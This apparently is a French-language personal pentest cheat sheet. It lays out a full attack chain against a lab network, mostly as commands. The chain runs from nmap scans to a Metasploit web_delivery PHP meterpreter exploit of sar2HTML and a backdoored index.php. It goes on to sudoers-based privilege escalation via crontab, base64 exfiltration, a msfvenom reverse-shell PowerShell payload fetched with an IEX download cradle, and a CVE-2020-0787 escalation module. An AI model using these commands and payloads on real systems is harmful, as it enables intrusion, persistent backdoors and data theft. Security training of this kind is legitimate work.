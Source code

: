 Summer with JM.md


## Etapes de pentest:

1. Reconnaissance
2. Analyse de vulns
3. Exploit de vulns - initial accès
4. Post Exploit - Persistance d’accès - Mouvement latéraux - data exfiltration
6. Rapport


    nmap 10.0.0.0/24 -sn (1ere étape +discret donne les machines up)

    nmap 10.0.0.0/24 -p 22,21,23,135,80,443,3389,3306,445 -oX /tmp/a.xml -Pn --open (2eme étape vision sur les services)

    nmap 10.0.0.0/24 -p 80,443,8080,8443,3389,445 -sV --open -sC -T4 -A -oX /tmp/a.xml   (fingerprinting)

Dans metasploit:  db_import /tmp/a.xml
(services, hosts, vulns)



2. recherche de vulns

découverte http://nananana/robots.txt
on trouve http://10.0.0.103/sar2HTML/ > recherche google sar2HTMLvXXX

Exploitdb


- msf5 > use exploit/multi/script/web_delivery
- set lport 4444
- set lhost 192.168.0.18
- set uripath /rgpd/
- set target 1
- set payload php/meterpreter/reverse_tcp
- exploit

copier l'exploit dans la barre d'adresse du navigateur 
## Backdoor:
sessions 1 > meterpreter

ls
lcd /tmp
download index.php
modif de index
upload /tmp/index.php

curl http://192.168.0.13/sar2HTML/index.php?tata=id | head -n 1



changer le meterpreter en bash : python3 -c 'import pty;pty.spawn("/bin/bash")'



## élévation de droit:
- fichier /var/www/html/write.sh > download >  echo "www-data ALL= (root) NOPASSWD: /usr/bin/sudo " >>/etc/sudoers > upload
- shell > /etc/crontab > attendre 5 min
- sudo -u root sudo su

## exfiltration:

cat /tmp/a.txt |base64 > genere le base 64 du fichier > on c/c le b64
- recup windows_adrienne.rdp

# rdp Windows par payload

- forger malicious
msfvenom -p windows/x64/meterpreter/reverse_tcp LPORT=8080 LHOST=10.0.0.2 -f psh-net -o malicious.ps1
- demarrer le serveur SimpleHTTPS au même endroit
python -m SimpleHTTPServer 80

## dans metasploit:
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp (> options :lhost, lport)

## powershell:
$e=new-object net.webclient;
IEX $e.downloadstring('http://xxx.xxx.xxx.xxx/malicious.ps1')

## Metasploit:
- passe le meterpreter en backgroung
meterpreter >background
msf5 exploit(multi/handler) > search suggest
use 3
options
set session 1
run

use exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move
set lport 3232
set session 1
set lhost 10.0.0.X
run -j

